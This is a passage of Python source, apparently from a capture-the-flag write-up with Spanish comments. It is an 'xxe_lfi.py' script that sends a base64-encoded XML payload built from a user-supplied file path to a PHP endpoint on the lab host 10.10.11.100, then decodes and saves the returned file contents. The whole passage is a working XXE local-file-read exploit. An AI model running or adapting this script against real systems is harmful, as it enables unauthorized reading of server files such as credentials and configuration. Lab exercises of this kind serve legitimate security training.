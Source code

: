 ```python
    xml_payload = create_xml_payload(file_path)
    
    # Codificar el XML en Base64
    base64_encoded_data = encode_base64(xml_payload)
    
    # Preparar los headers para la solicitud
    headers = {
        'Host': '10.10.11.100',
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0',
        'Accept': '*/*',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate, br',
        'X-Requested-With': 'XMLHttpRequest',
        'Origin': 'http://10.10.11.100',
        'Connection': 'keep-alive',
        'Referer': 'http://10.10.11.100/log_submit.php',
        'Priority': 'u=0',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Content-Length': str(len(base64_encoded_data) + len('data='))
    }

    # Datos del formulario (incluyendo el payload codificado)
    data = {'data': base64_encoded_data}
    
    # URL del endpoint
    url = 'http://10.10.11.100/tracker_diRbPr00f314.php'
    
    # Realizar la solicitud POST
    response = requests.post(url, headers=headers, data=data)
    
    # Limpiar las etiquetas HTML de la respuesta
    cleaned_response = clean_html(response.text)
    
    # Decodificar el contenido Base64 (si la respuesta tiene datos codificados)
    if cleaned_response:
        decoded_response = decode_base64(cleaned_response)
        
        # Verificar si la respuesta es binaria o texto
        if isinstance(decoded_response, bytes):
            # print("Binary data received. Not displaying as text.")
            # Aquí podrías guardar el archivo o procesarlo de alguna manera
            with open('output.txt', 'wb') as f:
                f.write(decoded_response)
           # print("Binary data saved as 'output.txt'.")
        
            #print(f"Decoded Response:\n{decoded_response}")
    else:
        print("No data found in the response.")

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python xxe_lfi.py <file_path>")
        sys.exit(1)
    
    # Tomar la ruta del archivo desde los argumentos
    file_path = sys.argv[1]
    
    # Enviar la solicitud POST con la ruta del archivo
    send_post_request(file_path)
    subprocess.run(["cat", "output.txt"])
```
{% endcode %}
